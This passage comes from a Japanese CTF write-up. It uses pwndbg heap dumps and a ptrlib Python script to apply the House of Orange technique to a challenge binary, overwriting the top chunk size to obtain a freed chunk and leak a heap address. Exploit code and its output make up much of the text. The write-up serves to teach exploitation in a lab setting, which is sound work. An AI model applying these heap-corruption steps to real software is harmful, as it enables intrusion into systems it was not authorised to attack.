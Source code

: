 ```bash
$ sudo gdb -q -p $(pidof hft)
~~~
pwndbg> vis
~~~
0x55555555a270  0x0000000000000000      0x0000000000000000      ................
0x55555555a280  0x0000000000000000      0x0000000000000000      ................
0x55555555a290  0x0000000000000000      0x0000000000000021      ........!.......
0x55555555a2a0  0x0000000000000018      0x0000000000000001      ................
0x55555555a2b0  0x0000696b6f746173      0x0000000000020d51      satoki..Q.......         <-- Top chunk
```
ソースの通りヒープから確保されている。  
まずは`free`がない点を解決するため調査すると、`malloc`時に`Top chunk`を書き換えて`_int_free`を呼び出すHouse of Orangeなる手法があるらしい。  
有識者の調査によると「`下位12-bitが壊れてなければassertionエラーは起きない！`」らしい。  
上記ヒープの`Top chunk`を`0x0000000000020d51`から`0x0000000000000d51`にオーバフローで書き換え、再度それより大きな`malloc`を行うと別の領域に新たなヒープが確保される。  
その際に、書き換えにより現在のヒープの下に別領域があると判定されるためヒープの結合が起こらず、残った`0xd51`が`free`されてfree listにつながる。  
何度でも`malloc`できるため、新たな領域を使い込みさらに新たな領域を確保する際にサイズをうまく書き換えると`tcachebins`や`unsortedbin`を自由に作ることができる。  
これで`free`がない点を解決できた。  
この操作を用いて、`unsortedbin`につなげて再度`malloc`するとヒープのアドレスがリークできる。  
```python
from ptrlib import *

elf = ELF("./hft")
libc = ELF("./libc.so.6")

sock = Process("./hft")

sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x0) + b"A" * 8 + p64(0xd51))

sock.sendafter(":[PKT_RES]\n", p64(0xD29))
sock.sendline(p64(0x0))

sock.sendafter(":[PKT_RES]\n", p64(0x18))
sock.sendline(p64(0x1)[:-1])
sock.recvuntil(":[")
leak = sock.recvuntil("]\n", drop=True)
print(hex(u64(leak)))

sock.sh()
```
実行する。  
```bash
$ python test.py
[+] __init__: Successfully created new process (PID=153364)
0x55555555a2b0
PKT_INFO:[PKT_RES]
[ptrlib]$
```
ヒープは以下の通りであった。  
```bash
$ sudo gdb -q -p $(pidof hft)
~~~
pwndbg> vis
~~~
0x55555555a270  0x0000000000000000      0x0000000000000000      ................
0x55555555a280  0x0000000000000000      0x0000000000000000      ................
0x55555555a290  0x0000000000000000      0x0000000000000021      ........!.......
0x55555555a2a0  0x0000000000000018      0x0000000000000000      ................
0x55555555a2b0  0x4141414141414141      0x0000000000000021      AAAAAAAA!.......
0x55555555a2c0  0x0000000000000018      0x0000000000000001      ................
0x55555555a2d0  0x000055555555a2b0      0x0000000000000d11      ..UUUU..........         <-- unsortedbin[all][0]
0x55555555a2e0  0x00007ffff7facce0      0x00007ffff7facce0      ................
```